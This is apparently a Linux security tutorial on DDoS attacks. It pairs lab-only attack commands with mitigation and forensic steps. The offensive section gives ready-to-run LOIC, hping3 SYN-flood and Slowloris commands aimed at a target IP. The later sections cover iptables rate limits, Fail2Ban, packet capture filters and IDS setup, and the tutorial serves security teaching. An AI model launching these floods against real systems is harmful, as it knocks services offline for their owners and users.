 # **DDoS Attacks Practically on Linux**

## **1. Offensive Perspective (Simulating DDoS Attacks)**
⚠️ **Warning:** Conduct these activities in a controlled lab environment only.

### **1.1 Using LOIC (Low Orbit Ion Cannon)**
LOIC is a simple stress-testing tool that can simulate TCP, UDP, and HTTP floods.
#### **Installation:**
```bash
sudo apt install mono-complete
wget https://github.com/NewEraCracker/LOIC/archive/refs/heads/master.zip
unzip master.zip && cd LOIC-master
```
#### **Execution:**
```bash
mono LOIC.exe
```
Configure the target and initiate the attack.

### **1.2 Using Hping3 (SYN Flood)**
Hping3 can be used to send TCP SYN packets rapidly.
#### **Installation:**
```bash
sudo apt install hping3
```
#### **Execution:**
```bash
sudo hping3 -S -p 80 --flood <target-ip>
```

### **1.3 Using Slowloris (Application Layer Attack)**
Slowloris exhausts available HTTP connections on the target.
#### **Installation & Execution:**
```bash
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
python3 slowloris.py <target-ip>
```

---
## **2. Defensive Perspective (Mitigation Strategies)**
### **2.1 Using IPTables for Traffic Filtering**
#### **Block SYN Flood:**
```bash
sudo iptables -A INPUT -p tcp --syn -m limit --limit 1/s --limit-burst 3 -j ACCEPT
sudo iptables -A INPUT -p tcp --syn -j DROP
```
#### **Block UDP Flood:**
```bash
sudo iptables -A INPUT -p udp -m limit --limit 10/s -j ACCEPT
sudo iptables -A INPUT -p udp -j DROP
```

### **2.2 Using Fail2Ban for Rate Limiting**
#### **Installation:**
```bash
sudo apt install fail2ban
```
#### **Configuration:**
Edit `/etc/fail2ban/jail.local`:
```
[sshd]
enabled = true
maxretry = 3
bantime = 3600
```

---
## **3. Forensic Perspective (Analyzing DDoS Attacks)**
### **3.1 Using Wireshark**
Wireshark can capture and analyze packet-level data.
#### **Execution:**
```bash
sudo wireshark
```
Filter SYN flood packets using:
```
tcp.flags.syn == 1 && tcp.flags.ack == 0
```

### **3.2 Using Tcpdump**
Tcpdump allows real-time network traffic monitoring.
#### **Execution:**
```bash
sudo tcpdump -i eth0 port 80
sudo tcpdump -n -c 1000 'tcp[tcpflags] & (tcp-syn) != 0'
```

### **3.3 Using Netstat to Detect High Connections**
Detect excessive connections from an IP.
#### **Execution:**
```bash
netstat -ant | awk '{print $5}' | sort | uniq -c | sort -nr
```

---
## **4. Converting a Target System to Detect & Defend**
### **4.1 Using Snort (Intrusion Detection System)**
#### **Installation:**
```bash
sudo apt install snort
```

### **4.2 Using Suricata (IDS/IPS)**
#### **Installation & Execution:**
```bash
sudo apt install suricata
sudo suricata -c /etc/suricata/suricata.yaml -i eth0
```

---
## **Final Notes**
- **Use Kali Linux** for offensive testing.
- **Use Ubuntu or CentOS** for defensive analysis.
- **Setup a private network** (VirtualBox or Raspberry Pi cluster) for ethical hacking.
- **Emphasize responsible cybersecurity practices.**
